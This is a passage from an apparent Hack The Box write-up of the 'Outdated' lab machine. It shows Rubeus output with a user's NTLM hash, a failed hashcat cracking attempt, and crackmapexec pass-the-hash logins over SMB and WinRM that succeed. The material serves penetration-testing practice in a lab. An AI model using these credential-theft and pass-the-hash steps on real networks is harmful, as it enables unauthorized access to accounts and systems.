 ```bash
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

With `Rubeus.exe` I can successfully extract NTLM hash of `sflowers` : `1FCDB1F6015DCB318CC77BB2BDA14DB5`.

Let's try cracking this hash first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 1000 -a 0 sflowers.ntlm /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

<SNIP>

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 1fcdb1f6015dcb318cc77bb2bda14db5
Time.Started.....: Fri Nov 29 08:30:13 2024 (3 secs)
Time.Estimated...: Fri Nov 29 08:30:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
```

Can't crack the hash..
Then, let's try to use the hash directly.

```basha
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.175 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5


┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.175 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
SMB         10.10.11.175    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```
